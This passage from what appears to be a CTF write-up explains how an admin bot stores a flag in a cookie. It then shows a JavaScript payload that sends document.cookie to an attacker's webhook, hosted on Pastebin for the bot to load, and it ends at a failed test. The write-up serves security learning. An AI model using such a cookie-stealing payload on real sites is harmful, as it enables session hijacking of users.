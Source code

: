 ```python
    driver.quit()
[...]
```

The `visit()` function will launch a headless (no GUI) Chrome browser, and then it'll:

1. Add a new cookie with key `flag`, and the flag value
2. Go to our POST parameter's `url` URL

That being said, **the flag is being stored in the `flag` cookie!**

## Exploitation

**Armed with above information, let's host a JavaScript payload on Pastebin!**

**The payload we're gonna use is:**
```javascript
const WEBHOOK_URL = "<your_webhook_URL>";
var cookies = document.cookie;
navigator.sendBeacon(WEBHOOK_URL, cookies);
```

This payload will send a POST request to our webhook URL with all the cookies.

**Now, go to [https://pastebin.com/](https://pastebin.com/):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113190745.png)

**Then, copy and paste our payload to the new paste:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113190827.png)

> Note: I'm using [requestrepo](https://requestrepo.com/) as the webhook URL.

**Next, scroll down a little bit and click "Create New Paste":**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113190932.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113191003.png)

Now, we can copy and paste our Pastebin URL to the bot.

But before we do that, it's important to test the payload before sending it.

**To do so, we can provide a GET parameter `src` in the challenge's web application:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113191232.png)

However, it should failed.

**To understand why, we need to open our development tools, and view the "Console" tab:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113191311.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2023/images/Pasted%20image%2020231113191320.png)
